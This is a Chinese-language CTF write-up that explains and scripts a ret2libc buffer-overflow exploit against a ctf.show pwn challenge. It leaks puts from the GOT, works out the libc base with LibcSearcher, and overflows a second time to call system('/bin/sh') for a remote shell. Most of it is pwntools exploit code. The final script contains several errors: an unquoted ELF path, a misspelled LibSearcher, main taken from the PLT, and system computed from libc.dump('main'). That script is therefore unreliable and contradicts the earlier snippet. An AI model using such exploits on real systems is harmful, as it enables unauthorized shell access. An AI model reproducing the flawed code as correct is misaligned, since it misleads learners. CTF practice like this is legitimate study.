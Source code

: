 ```python
libc = LibcSearcher('puts', puts_addr)      # 根据内存中的地址寻找相应libc版本中的puts函数的地址
libc_base = puts_addr - libc.dump('puts')   # 内存中的puts函数地址减去libc中的puts函数地址就得到libc的基地址
system_addr = libc_base + libc.dump('system')   # 查找内存中的system地址
binsh_addr = libc_base + libc.dump('str_bin_sh')    # 查找内存中的"/bin/sh"字符串地址
payload = b'a' * (0x88 + 0x04) + p32(system_addr) + b'a'*4 + p32(binsh_addr)    # 填充system函数之后的返回地址，要溢出到返回地址处，所以为4

p.sendline(payload)
p.interactive()
```



- **第一步：建立连接与获取函数地址信息**
  - 使用`remote`函数连接到指定的远程服务器（`ip`和`port`）。
  - 通过`ELF`函数解析本地的`pwn`可执行文件，获取`puts`函数在`plt`表中的地址（`puts_plt`）、`main`函数的地址（`main_addr`）和`puts`函数在`got`表中的地址（`puts_got`）。
- **第二步：第一次缓冲区溢出（信息泄露）**
  - 构造`payload0`，它由填充字节（`0x88 + 0x04`个`a`）、`puts_plt`地址、`main_addr`地址和`puts_got`地址组成。这里填充字节是为了覆盖栈上的返回地址，使得程序在从当前函数返回时，会跳转到`puts_plt`地址执行`puts`函数，并且将`puts_got`的地址作为参数传递给`puts`函数，从而泄露`puts`函数在内存中的实际地址。
  - 使用`sendline`函数将`payload0`发送到远程服务器，触发缓冲区溢出和`puts`函数执行，然后接收并存储`puts`函数在内存中的地址（`puts_addr`）。
- **第三步：计算`libc`基地址和目标函数地址**
  - 使用`LibcSearcher`根据泄露的`puts`地址来查找相应`libc`版本中的`puts`函数地址，然后计算出`libc`的基地址（`libc_base`）。
  - 根据`libc`基地址计算出`system`函数地址（`system_addr`）和`/bin/sh`字符串地址（`binsh_addr`）。
- **第四步：第二次缓冲区溢出（获取 shell）**
  - 构造`payload`，同样由填充字节（`0x88 + 0x04`个`a`）、`system_addr`、填充字节（4 个`a`）和`binsh_addr`组成。这次溢出的目的是让程序在返回时跳转到`system`函数，并将`/bin/sh`字符串的地址作为参数传递给`system`函数，从而获取远程服务器的 shell。
  - 使用`sendline`函数将`payload`发送到远程服务器，触发缓冲区溢出和`system`函数执行，最终获取交互式 shell。



程序思路梳理

```python
from pwn import *
from LibcSearcher import *

context(arch='i386',os='linux',log_level='debug')

ip = 'pwn.challenge.ctf.show'
port = 28122

r = remote(ip,port)
elf = ELF(./pwn)

puts_plt = elf.plt['puts']
main_addr = elf.plt['main']
puts_got = elf.got['puts']

payload0 = b'a'* (0x88 + 0x04) + p32(puts_plt) + p32(main_addr) + p32(puts_got)
r.sendline(payload0)

puts_addr = u32(r.recv(4))
libc = LibSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('main')
binsh_addr = libc_base + libc.dump('str_bin_sh')
payload1 = b'a' * (0x88 + 0x04) + p32(system_addr) + b'a' * 4 + p32(binsh_addr)
r.sendline(payload1)
r.interactive()
```
